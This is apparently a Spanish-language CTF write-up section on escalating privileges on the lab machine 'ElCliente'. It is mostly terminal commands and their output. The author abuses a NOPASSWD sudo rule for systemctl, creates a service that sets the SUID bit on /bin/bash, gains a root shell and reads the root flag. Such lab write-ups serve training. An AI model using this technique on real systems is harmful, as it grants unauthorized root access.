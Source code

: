 ## Privilege Escalation

Verifico nuevamente los comandos que el usuario actual puede ejecutar con `sudo`.

```terminal
$ script /dev/null -c bash

bash-5.2$ sudo -l
Matching Defaults entries for kobe on TheHackersLabs-ElCliente:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User kobe may run the following commands on TheHackersLabs-ElCliente:
    (ALL) NOPASSWD: /bin/systemctl
```

En este caso, `kobe` puede ejecutar systemctl con privilegios de `root` sin necesidad de contraseña.

Según [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), es posible crear un servicio que modifique los permisos de `/bin/bash` para que tenga el bit SUID activado.

* Creo el archivo de servicio.

```terminal
bash-5.2$ cat x.service/
[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target
```

* Enlazo y habilito el servicio.

```terminal
bash-5.2$ sudo systemctl link /home/kobe/x.service
Created symlink /etc/systemd/system/x.service → /home/kobe/x.service.

bash-5.2$ sudo systemctl enable --now /home/kobe/x.service
Created symlink /etc/systemd/system/multi-user.target.wants/x.service → /home/kobe/x.service.
```

Verifico que `/bin/bash` ahora tiene el bit SUID activado.

```terminal
bash-5.2$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```
Finalmente, ejecuto una shell con privilegios de `root`.

```terminal
bash-5.2$ bash -p
bash-5.2# id
uid=1000(kobe) gid=1000(kobe) euid=0(root) groups=1000(kobe)

bash-5.2# cat /root/root.txt
```